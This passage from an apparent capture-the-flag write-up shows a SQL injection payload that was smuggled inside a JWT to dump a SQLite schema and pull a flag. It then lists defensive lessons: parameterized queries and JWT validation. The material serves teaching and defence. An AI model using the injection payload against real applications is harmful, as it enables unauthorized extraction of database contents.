 ```sql
test1' AND 1=0 UNION SELECT 1,(SELECT group_concat(sql) FROM sqlite_master),3;--
```

I made a jwt token out of it and sent it with burp, the results was what I am looking for

![](/img/login-sqli-mster-repeater.png)

**Finally got our flag table. Another SELECT query to this flag table gave me my flag:**

![](/img/login-key-extracted.png)



###Good lessons from this challenge:

**1- Do not ever let the user input used in the application without any validation. Another option is to map values in the array to placeholders (question marks ), for example:**

```sql
db.get(`SELECT * FROM users WHERE username = ?`, username)
```

**2- Received JWT should be validated before used by the application. And follow the [current jwt best practices](https://tools.ietf.org/html/draft-ietf-oauth-jwt-bcp-07) from the JWT developers at Auth0**




Thank for reading.


